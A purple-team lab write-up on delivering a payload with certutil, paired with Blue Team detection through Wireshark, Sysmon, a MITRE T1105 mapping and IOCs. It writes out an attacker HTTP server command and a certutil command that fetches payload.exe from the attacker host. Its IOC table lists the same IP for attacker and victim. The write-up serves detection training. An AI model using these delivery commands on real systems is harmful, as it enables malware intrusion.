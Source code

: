 # 🛡️ Scenario 1 – Malware Delivery (Ingress Tool Transfer)

## 🎯 Objective
Simulate the delivery of a malicious payload (`payload.exe`) from an attacker machine to a victim endpoint over HTTP, and validate the Blue Team’s detection and monitoring capabilities using network traffic analysis and endpoint telemetry.

---

## 🔴 Red Team Activity

### Steps
1. **Host Malicious Payload on Attacker Machine**:
   - The attacker hosted `payload.exe` on a Kali machine using a simple HTTP server:
     ```bash
     python3 -m http.server 8080
     ```
2. **Download Payload on Victim Machine**:
   - The victim machine downloaded the payload using the built-in Windows utility `certutil`:
     ```bash
     certutil -urlcache -split -f http://192.168.2.131:8080/payload.exe payload.exe
     ```

### Explanation
- The attacker exploited `certutil.exe`, a legitimate Windows tool, to fetch the payload. This is a classic **Living off the Land Binary (LOLBin)** technique, which avoids detection by leveraging native system binaries rather than external download tools that might be blocked or flagged by security software.

### Evidence (Text-Only, No Images)
- **Victim CLI**: Command output showing successful execution of `certutil` to download `payload.exe`.
- **Attacker Terminal**: Kali terminal log indicating a GET request from the victim (optional, based on HTTP server output).

---

## 🔵 Blue Team Detection

### Network Traffic Analysis (Wireshark Capture)
- **Filter Applied**: `http.request`
- **Observed Traffic**:
  ```
  GET /payload.exe HTTP/1.1
  Host: 192.168.2.131:8080
  ```
- **Analysis**: This confirms the victim machine initiated an HTTP request to the attacker’s web server (port 8080) and successfully retrieved `payload.exe`.
- **Evidence (Text-Only, No Images)**: Wireshark log snippet showing the GET request details.

### Endpoint Telemetry (Sysmon Integration)
- **Sysmon Event ID 11 - File Create**: Detects the creation of `payload.exe` on the victim machine.
  - **Relevant Fields**:
    - `TargetFilename`: `C:\path\to\payload.exe` (where the file was saved).
    - `Image`: Process creating the file (e.g., `certutil.exe`).
    - `Computer`: Victim machine hostname.
- **Evidence (Text-Only, No Images)**: Sysmon log entry confirming file creation event.

---

## 🧩 MITRE ATT&CK Mapping

- **Technique**: T1105 – Ingress Tool Transfer
  - **Description**: Adversaries transfer tools or payloads from an external system into a compromised environment.
- **Technique Context**:
  - Delivery method: HTTP over port 8080.
  - Tool used: Native Windows binary `certutil.exe` to minimize detection by traditional antivirus solutions.

---

## 📌 Indicators of Compromise (IOCs)

| Type         | Value                     | Notes                                              |
|--------------|---------------------------|----------------------------------------------------|
| Attacker IP  | 192.168.2.131            | Kali machine hosting the malicious payload         |
| Victim IP    | 192.168.2.131  | Windows endpoint fetching the payload             |
| File Name    | payload.exe              | Dropped onto the victim system                    |
| File Hash    | 4AEB7D3DE9501A01BD4F97B85A00B0ACB4AC470441CFE491432F15007E9E1BCB | Generate with: `Get-FileHash payload.exe -Algorithm SHA256` |

---

## ✅ Summary
In this scenario, the attacker successfully delivered `payload.exe` to the victim machine by exploiting the legitimate `certutil.exe` utility. The Blue Team validated the transfer through:
- Network traffic analysis in Wireshark, identifying the HTTP GET request.
- Endpoint telemetry via Sysmon, logging the file creation event.

This exercise highlights the risk of abusing common Windows binaries for initial malware delivery. Defenders must monitor both network traffic (e.g., unusual HTTP requests) and endpoint activity (e.g., Sysmon file creation) to detect such techniques effectively. Regular updates to detection rules and IOC tracking are critical to mitigate these threats.
